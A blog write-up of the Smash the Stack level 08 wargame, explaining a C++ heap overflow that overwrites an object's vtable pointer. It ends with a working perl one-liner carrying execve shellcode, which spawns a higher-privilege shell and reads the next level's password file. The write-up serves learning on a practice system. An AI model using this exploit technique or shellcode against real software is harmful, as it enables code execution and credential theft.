 ```yaml
---
author: alvaro
comments: true
layout: post
title: Level 08 I/O Smash the Stack
categories:
- Archive
tags:
- security
---
```


Finally I got some time to write. I am going to try to summarize the process which I have had to pass to resolve the smash's level08.

The code for this exercise is the following.

```C++
 // writen by bla for io.smashthestack.org
#include <iostream>
#include <cstring>
#include <unistd.h>

class Number
{
        public:
                Number(int x) : number(x) {}
                void setAnnotation(char *a) {memcpy(annotation, a, strlen(a));}
                virtual int operator+(Number &r) {return number + r.number;}
        private:
                char annotation[100];
                int number;
};


int main(int argc, char **argv)
{
        if(argc < 2) _exit(1);

        Number *x = new Number(5);
        Number *y = new Number(6);
        Number &five = *x, &six = *y;

        five.setAnnotation(argv[1]);

        return six + five;
}
 
```

It is clear how the use of `memcpy` is insecure due to there is not sanitation on the argv[1] so we can write beyond the capacity of the member variable `annotation`.

To see if this fact is exploitable we need to figure out how is the layout of the class on memory. C++ classes are very similar with C’s structs. That means that the layout would be.

```
AAAAAAAAAAAAAAAAAAAANNNN

where:
A -> bytes of annotation
N -> bytes of number

```

But in this case we have an extra pointer which is normally known as `vtable`. So the layout would be as follows.

```
PPPPAAAAAAAAAAAANNNN
where:
P-> pointer of vtable
A-> bytes of annotation
N-> bytes of number
```

What is the goal of vtable in C++? This can be viewed as dynamic binding since is the way C++ resolve calls when the inheritances come out. The following [example](http://phrack.org/issues/56/8.html)  try to explain the concept.

```C++
#include <stdio.h>
#include <string.h>

class BaseClass
{
    private:
        char buffer[32];
    public:
        void SetBuffer(char *String)
        {
            strcpy(Buffer,String);
        }
        virtual void PrintBuffer()
        {
            printf(“%s\n”,Buffer);
        }
};

class MyClass1:public BaseClass
{
    public:
        void PrintBuffer()
        {
            printf(“MyClass1: “);
            BaseClass::PrintBuffer();
        }
};

class MyClass2:public BaseClass
{
    public:
        void PrintBuffer()
        {
            printf(“MyClass2: “);
            BaseClass::PrintBuffer();
        }
};

void main()
{
    BaseClass *Object[2];

    Object[0] = new MyClass1;
    Object[1] = new MyClass2; 

    Object[0]->SetBuffer(“string1”);
    Object[1]->SetBuffer(“string2”);
    Object[0]->PrintBuffer();
    Object[1]->PrintBuffer();
}

$ ./example
MyClass1: string1
MyClass2: string2
```

What’s going on here? Thanks to vtable the runtime can resolve which method should call. Vtable how we have said before has been created to support dynamic binding or dynamic dispatch. It is an array of functions. This functions will be set at runtime to point to the correct function to be called. That is why the Object[0] knows that when it needs to call the member function `PrintBuffer`, it must call the MyClass1’s function instead of BaseClass’s. The same happens with Object[1].

If in somehow we can overwrite the vtable we can hijack the flow of our program to execute arbitrary code. That is the problem of the code that we showed at the beginning. 

When we call `setAnnotation` on `five`, which is a reference to `x`, we are able to write beyond its space since we are using memcpy without sanitation. We overwrite `six` memory space, since it is after the five’s memory; with the consequence to overwrite vtable. After that, when the statement `return six + five` is called, that in reality is called `return six.operator+(five)`, the runtime look through the `vtable` to know the correct function to call. This is when the buffer overflow; that happens on the heap since the classes are created using `new`, can be exploited.

If we use gdb we can see the layout of the memory.

![level8-1](/public/images/level8-1.png)

We have to write our shellcode in `annotation` and then rewrite the six’s vtable to redirect it to our shellcode. Finally to exploit this we need to execute the following.

```bash
/levels/level08 `perl -e ‘print “\x10\xa0\x04\x08\x90\x90\x90\x90\x90\x90\x90\x31\xdb\x89\xd8\xb0\x17\xcd\x80\x31\xdb\x89\xd8\xb0\x2e\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80”,”A”x56,”\x0c\xa0\x04\x08”’`

sh-4.2$ id
uid=1008(level8) gid=1008(level8) euid=1009(level9) groups=1009(level9),1008(level8),1029(nosu)
sh-4.2$ cat /home/level9/.pass
XXXXXXXXXXX
``` 

Write a shellcode is a difficult task in which I have to go deeper. This exercise has been very helpful to understand the danger of vtable on C++ and how the classes are represented in memory. We must be careful when we develop software since you never know where the danger resides.
